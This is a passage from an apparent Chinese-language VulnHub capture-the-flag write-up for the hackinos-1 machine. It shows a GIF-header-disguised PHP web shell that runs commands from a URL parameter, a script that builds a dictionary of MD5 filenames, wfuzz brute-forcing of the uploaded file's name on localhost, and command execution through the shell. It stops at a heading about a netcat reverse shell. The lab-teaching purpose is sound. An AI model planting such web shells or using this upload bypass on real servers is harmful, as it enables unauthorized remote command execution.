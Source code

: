 ```php
GIF89a
<? system($_GET['cmd']); ?>
```

将上述文件上传

![1553582566734](F:\学习资料\github\vulnhub-writeup\hackinos-1\assets\1553582566734.png)

![1553582592279](F:\学习资料\github\vulnhub-writeup\hackinos-1\assets\1553582592279.png)

可以看到，上传成功，接下来，就是需要将上传以后的文件名称爆破出来，首先生成一个文件名称字典

编写文件sheng.php

```php
<?php
for ($i = 1; $i <= 100; $i++){
	echo md5("cmd.php".$i);
	echo "\r\n";
}
```

生成文件名称字典

```php
php sheng.php > sheng.txt
```

![1553582963831](F:\学习资料\github\vulnhub-writeup\hackinos-1\assets\1553582963831.png)

接下来，尝试遍历出真正的文件名

```shell
wfuzz -w sheng.txt --hc 404 http://localhost:8000/uploads/FUZZ.php
```

![1553583089903](F:\学习资料\github\vulnhub-writeup\hackinos-1\assets\1553583089903.png)

至此为止，已经成功得到了上传的名称，尝试使用浏览器直接访问

```php
http://localhost:8000/uploads/4051b0b087ce50bbe0a810d106d329ab.php
```

![1553583210765](F:\学习资料\github\vulnhub-writeup\hackinos-1\assets\1553583210765.png)

尝试执行命令

```php
http://localhost:8000/uploads/4051b0b087ce50bbe0a810d106d329ab.php?cmd=id
```

![1553583255131](F:\学习资料\github\vulnhub-writeup\hackinos-1\assets\1553583255131.png)

使用nc反弹shell

本地输入
